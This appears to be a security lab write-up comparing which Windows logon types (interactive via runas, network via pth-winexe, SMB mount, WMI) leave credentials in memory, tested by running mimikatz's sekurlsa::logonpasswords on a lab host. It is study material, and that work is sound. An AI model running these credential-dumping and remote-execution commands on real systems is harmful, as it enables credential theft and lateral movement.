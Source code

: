 ```yaml
---
description: >-
  This lab explores/compares when credentials are stored on a compromised
  system.
---
```


# Network vs Interactive Logons

## Interactive Logon \(2\): Initial Logon

Let's make a base password dump \(using mimikatz\) on the victim system to see what we can get before we start logging on to the victim with other methods. To test this, the victim system was rebooted and no attempts to login to the system were made, except for the interactive logon to get access to the console:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-test1.png)

## Interactive Logon \(2\) via runas and Local Account

{% code-tabs %}
{% code-tabs-item title="victim" %}
```text
runas /user:low cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-test2.png)



## Interactive Logon \(2\) via runas and Domain Account

{% code-tabs %}
{% code-tabs-item title="victim" %}
```text
runas /user:spot@offense cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-test3.png)

## Network Logon \(3\) with Local Account

Imagine and admin or an Incident Responder is connecting to a victim system \(using that machine's local account\) remotely to inspect it for a compromise using psexec or pth-winexe:

{% code-tabs %}
{% code-tabs-item title="victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine a good admin or an Incident Responder is connecting to a victim system \(using that machine's local account\) remotely to inspect it for a compromise using psexec, pth-winexe, a simple SMB mount or WMI:

{% code-tabs %}
{% code-tabs-item title="admin@linux" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="admin@windows" %}
```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.



